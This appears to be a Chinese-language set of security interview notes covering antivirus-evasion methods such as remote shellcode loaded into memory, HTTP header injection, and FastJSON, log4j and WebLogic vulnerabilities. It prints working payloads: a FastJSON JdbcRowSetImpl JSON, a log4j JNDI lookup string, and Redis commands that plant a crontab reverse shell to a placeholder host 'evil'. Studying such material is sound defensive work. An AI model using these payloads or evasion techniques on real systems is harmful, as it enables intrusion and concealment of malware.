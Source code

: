 ## 免杀

**Q：常见的免杀方法？**
A：修改特征码（字符串检测、某区域内存在病毒库中的特征）、花指令（不可执行：多字节指令、破坏堆栈平衡（IDA递归下降）；可执行：函数调用（add esp ret）、混淆特征码（jmp label --> push label / ret））、加壳（壳本身也有特征码）、内存免杀（VirtualAlloc直接将shellcode加载进内存）、二次编译。

**Q：介绍一种免杀方法？**
A：将shellcode保存成字符串，木马请求远程shellcode字符串，将字符串解析为十六进制串，调用kernel32中的VirtualAlloc函数创建内存，通过ntdll.dll中的RtlCopyMemory将shellcode拷贝到内存中，通过syscall执行，免去了文件落地。

## HTTP

**Q：HTTP请求头注入？**
A：开发人员为了验证客户端HTTP Header（比如常用的Cookie验证等）或者通过HTTP Header头信息获取客户端的一些信息（例如：User-Agent、Accept字段等），会对客户端HTTP Header 进行获取并使用SQL语句进行处理，如果此时没有足够的安全考虑，就可能导致基于HTTP Header的注入漏洞。

**Q：常见的HTTP请求头注入有哪些？**
A：Cookie（获取该字段并验证客户端身份）、User-Agent（记录客户端版本操作系统或根据该字段推动不同的网页）、Referer（统计网站的点击量）、XFF（X-Forwarded-For记录客户端真实IP）

**Q：HTTP Keep-Alive机制？**
A：`Connection: keep-alive/close`开启/关闭保持连接（长连接）。

## FastJSON反序列化漏洞

@type允许传入任意类名，并通过反序列化函数将json反序列化为类，com.sun.rowset.JdbcRowSetImpl允许rmi和idap协议，搭建二者之一的服务器和http服务器存放编译好的Java代码，即可在攻击时执行构造的代码。

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

二代加入checkAutoType函数对传入的类名进行黑名单过滤并限制长度，可以通过非黑名单函数`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`绕过；还可以绕过loadClass函数开头`L`结尾`;`被去掉然后正常执行。

三代嵌套反序列化，先做一个不在黑名单中的，使cache为True之后在load旧类时判断条件有`TypeUtils.getClassFromMapping(typeName) ！=null`后面直接从mapping中提出类并最终返回，没有通过黑名单测试。

## log4j

resolveVariable方法中resolver.lookup调用了lookup函数导致命令执行，通过log.info的方法传递进入的payload被执行`${jndi:ldap(rmi/dns)://127.0.0.1/exp}`

## weblogic

### SSRF（CVE-2014-4210）

`http://192.168.199.155:7001/uddiexplorer/`参数oprator应该执行了ping命令，返回值显示其后的地址是否可达，构造radis命令，将弹shell指令存入corntab。

```shell
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/evil/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```
